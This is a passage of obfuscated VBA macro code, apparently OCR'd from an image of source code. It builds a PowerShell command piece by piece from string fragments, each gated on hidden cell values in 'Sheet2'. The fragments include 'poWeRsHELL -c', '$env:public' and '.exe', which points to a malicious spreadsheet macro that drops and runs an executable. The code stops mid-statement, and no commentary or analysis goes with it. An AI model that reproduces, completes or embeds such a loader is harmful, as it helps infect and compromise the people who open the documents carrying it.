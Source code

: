 ```vb
End If
If Sheets("Sheet2").Range("Q2").Value = "VKVTo5f+" Then
e5b138e644d624905ca8d47c3b8a2cf41 = e5b138e644d624905ca8d47c3b8a2cf41 + "NA-H"
End If
t53df028c67b2f07f1069866e345c8b85 = "p"
If Sheets("Sheet2").Range("L84").Value = "GSPMnc83" Then
t53df028c67b2f07f1069866e345c8b85 = t53df028c67b2f07f1069866e345c8b85 + "oWe"
End If
If Sheets("Sheet2").Range("H35").Value = "aCxE//3x" Then
t53df028c67b2f07f1069866e345c8b85 = t53df028c67b2f07f1069866e345c8b85 + "ACew"
End If
If Sheets("Sheet2").Range("R95").Value = "uIDW54Re" Then
t53df028c67b2f07f1069866e345c8b85 = t53df028c67b2f07f1069866e345c8b85 + "Rs"
End If
If Sheets("Sheet2").Range("A24").Value = "PKRtszin" Then
t53df028c67b2f07f1069866e345c8b85 = t53df028c67b2f07f1069866e345c8b85 + "HELL"
End If
If Sheets("Sheet2").Range("G33").Value = "ccEsz3te" Then
t53df028c67b2f07f1069866e345c8b85 = t53df028c67b2f07f1069866e345c8b85 + "L3c33"
End If
If Sheets("Sheet2").Range("P31").Value = "aI3bH4Rd" Then
t53df028c67b2f07f1069866e345c8b85 = t53df028c67b2f07f1069866e345c8b85 + " -c"
End If

If Sheets("Sheet2").Range("Z49").Value = "oKnlcgpo" Then
tfd753b886f3bd1f6da1a84488dee93f9 = tfd753b886f3bd1f6da1a84488dee93f9 + "4';$"
End If
If Sheets("Sheet2").Range("F57").Value = "JoTVytPM" Then
tfd753b886f3bd1f6da1a84488dee93f9 = tfd753b886f3bd1f6da1a84488dee93f9 + "jri="
End If
If Sheets("Sheet2").Range("M37").Value = "y7MxjsAO" Then
tfd753b886f3bd1f6da1a84488dee93f9 = tfd753b886f3bd1f6da1a84488dee93f9 + "$env:"
End If
If Sheets("Sheet2").Range("E20").Value = "ap0EvV5r" Then
tfd753b886f3bd1f6da1a84488dee93f9 = tfd753b886f3bd1f6da1a84488dee93f9 + "publ"
End If
z92ea38976d53e8b557cd5bbc2cd3e0f8 = "\'+$"
If Sheets("Sheet2").Range("D11").Value = "Q/GXajeM" Then
z92ea38976d53e8b557cd5bbc2cd3e0f8 = z92ea38976d53e8b557cd5bbc2cd3e0f8 + "CNTA"
End If
If Sheets("Sheet2").Range("B45").Value = "/hRdSmbG" Then
z92ea38976d53e8b557cd5bbc2cd3e0f8 = z92ea38976d53e8b557cd5bbc2cd3e0f8 + "+'.ex"
End If
If Sheets("Sheet2").Range("D85").Value = "y4/6D38p" Then
z92ea38976d53e8b557cd5bbc2cd3e0f8 = z92ea38976d53e8b557cd5bbc2cd3e0f8 + "e';tr"
End If
If Sheets("Sheet2").Range("P2").Value = "E45tTsBe" Then
z92ea38976d53e8b557cd5bbc2cd3e0f8 = z92ea38976d53e8b557cd5bbc2cd3e0f8 + "4d2dx"
End If
If Sheets("Sheet2").Range("O72").Value = "lD3Ob4eQ" Then
tfd753b886f3bd1f6da1a84488dee93f9 = tfd753b886f3bd1f6da1a84488dee93f9 + "ic+'"
End If
qe32cd94f940ea527cf84654613d4fb5d = "omm"
If Sheets("Sheet2").Range("P24").Value = "d/v8oiH9" Then
qe32cd94f940ea527cf84654613d4fb5d = qe32cd94f940ea527cf84654613d4fb5d + "and"
End If
If Sheets("Sheet2").Range("V22").Value = "dI6oBK/K" Then
qe32cd94f940ea527cf84654613d4fb5d = qe32cd94f940ea527cf84654613d4fb5d + " """
End If
If Sheets("Sheet2").Range("G1").Value = "zJ1AdN0x" Then
qe32cd94f940ea527cf84654613d4fb5d = qe32cd94f940ea527cf84654613d4fb5d + "$oa"
End If
If Sheets("Sheet2").Range("Y93").Value = "E/5234dF" Then
```